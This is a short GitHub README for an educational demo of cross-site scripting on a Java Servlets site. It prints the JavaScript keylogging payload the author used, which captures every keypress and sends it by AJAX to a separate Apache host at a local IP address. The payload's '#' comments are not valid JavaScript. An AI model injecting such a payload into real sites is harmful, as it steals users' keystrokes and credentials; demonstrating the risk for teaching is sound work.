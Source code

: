 # XSS-Demo
I made this website using *Java Servlets* for giving a demo of **XSS and its dangers**.

I hosted the website on my **Tomcat** Server and used **Apache** for **Keylogging**.

![XSS](https://github.com/Miraj50/XSS-Demo/blob/master/XSS_Demo.gif)

The *payload* used for Keylogging:
```
document.addEventListener('keypress', function() {
	console.log(arguments[0].key); #Testing
	$.ajax({
		type: 'GET',
		url: 'http://192.168.0.105', #apache
		data: { 
			'key': arguments[0].key, 
		},
	});
});
```
